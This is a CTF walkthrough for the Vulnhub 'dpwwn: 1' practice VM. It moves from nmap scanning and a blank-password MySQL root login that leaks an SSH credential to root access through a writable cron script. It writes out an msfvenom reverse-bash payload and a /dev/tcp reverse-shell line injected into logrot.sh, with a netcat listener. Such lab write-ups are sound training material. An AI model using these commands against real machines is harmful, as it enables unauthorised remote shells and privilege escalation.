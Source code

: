 ```yaml
---
title: 'cronjob privileged escalation dpwwn: 1 Vulnhub Walkthrough 1'
date: 2019-10-22T20:23:00+01:00
draft: false
---
```


  

  
  
  
  
  

[cronjob privileged escalation dpwwn: 1 Vulnhub Walkthrough](https://leetvilu.blogspot.com/2019/10/cronjob-privileged-escalation-dpwwn-1.html)
==============================================================================================================================================

Today we are going to take another CTF challenge down. The credit for making this VM machine goes to “Debashish Pal” and it is a boot2root challenge where we have to root the machine and capture the flag to complete the challenge. You can download this VM [**here**](https://www.vulnhub.com/entry/dpwwn-1,342/).  
**Security Level**: Beginner  

### **Penetrating Methodology:**

1.  **Scanning**

*   Netdiscover
*   Nmap

2.  **Enumeration**

*   Mysql 

3.  **Exploitation**

*   SSH
*   Msfvenom
*   Netcat

4.  **Privilege Escalation**

*   Writable Script running on crontab

### Walkthrough:

**Scanning:**  
Let’s start of by scanning the network and identifying the host IP address. We can see our host IP is 192.168.1.101 by using Netdiscover.  

netdiscover

1

netdiscover

**![](https://i1.wp.com/1.bp.blogspot.com/--qQ1IdrGGaY/XVUrTHk2DbI/AAAAAAAAgBs/ayJbaxeULpk-udsMmJ1lrzJDT6rRJHC8wCLcBGAs/s1600/1.png?w=687&ssl=1)**  
Then, as usual, we used our favourite tool Nmap for port enumeration. We found that port 22, 80 and 3306 are open.  

nmap -A 192.168.1.101

1

nmap \-A  192.168.1.101

**![](https://i0.wp.com/1.bp.blogspot.com/-dqVIZT8FP10/XVUrTPuWaFI/AAAAAAAAgBo/HmFhAOqBxUA9ifjtuR5UXOJyQ3JZxHTMQCLcBGAs/s1600/2.1.png?w=687&ssl=1)**  

### **Enumeration:**

As we can see mysql service is running (3306) we tried our luck to access the mysql server with root user and blank password and to our surprise, we were able to login.  
Once we logged in, we got the database names, there we saw a database of ssh, we checked for its tables and found one user credentials **mistic:testP@$$swordmistic**  

mysql –h 192.168.1.101 –u root –p show databases; use ssh; show tables; select \* from users;

1

2

3

4

5

mysql  –h  192.168.1.101  –u  root  –p

show databases;

use  ssh;

show tables;

select \*  from users;

![](https://i0.wp.com/1.bp.blogspot.com/-d7B1msTuXTo/XVUrTSfWpBI/AAAAAAAAgBw/FpOGJLBkQWQF8B5Z92pScsYPKD9n7_lVQCLcBGAs/s1600/2.png?w=687&ssl=1)  

### **Exploitation:**

We were able to ssh the target system using the above-found credentials. After logging in we found a file named **logrot.sh**. We looked inside the file and this is bash script which collects the logs.  
And in the crontab, the same file is scheduled for execution with root privileges.  

ssh mistic@192.168.1.101 ls –la cat logrot.sh cat /etc/crontab

1

2

3

4

ssh mistic@192.168.1.101

ls  –la

cat logrot.sh

cat  /etc/crontab

![](https://i0.wp.com/1.bp.blogspot.com/-QjebkcFMwto/XVUrUrlkXHI/AAAAAAAAgB0/tLqmLkomA8kZYvGx76tk4GgoT5fNYdWAACLcBGAs/s1600/3.png?w=687&ssl=1)  
So what we did is we created a reverse netcat payload using msfvenom with listener ip as our kali and listener port 1234.  

msfvenom –p cmd/unix/reverse\_bash lhost=192.168.1.106 lport=1234 R

1

msfvenom  –p  cmd/unix/reverse\_bash lhost\=192.168.1.106  lport\=1234  R

**![](https://i0.wp.com/1.bp.blogspot.com/-SH-ZSJyqEfA/XVUrUs4YwhI/AAAAAAAAgB4/LDkdWJUQq4M4Lnq4u6E-jBgNLP9lyFvJwCLcBGAs/s1600/4.png?w=687&ssl=1)**  
Then we copied the same payload inside the **logrot.sh** binary using the **echo** command.  

echo ‘0<&74-;exec 74<>/dev/tcp/192.168.1.106/1234;sh <&74 >&74 2>&74’ > logrot.sh

1

echo  ‘0<&74\-;exec  74<>/dev/tcp/192.168.1.106/1234;sh  <&74  \>&74  2\>&74’  \>  logrot.sh

**![](https://i0.wp.com/1.bp.blogspot.com/-UygL3kE4-xQ/XVUrU7bjljI/AAAAAAAAgB8/thBAwJeWzRQhDLo1byQBxcZqdKhfkbp1QCLcBGAs/s1600/5.png?w=687&ssl=1)**  

### **Privilege Escalation:**

Since the **logrot.sh** is scheduled in crontab with root privileges, we simultaneously started netcat listener on our kali machine and waited for the reverse shell. And after some time we got a **root** shell and eventually the root **flag.**  

nc –lvp 1234 cd /root ls cat dpwwn-01—FLAG.txt

1

2

3

4

nc  –lvp  1234

cd  /root

ls

cat dpwwn\-01—FLAG.txt

![](https://i2.wp.com/1.bp.blogspot.com/-3ThQdQuxpzQ/XVUrV4GD0UI/AAAAAAAAgCA/Qys1sBpGRfoX2DMbtkZtyr_6sG3z0srxwCLcBGAs/s1600/6.png?w=687&ssl=1)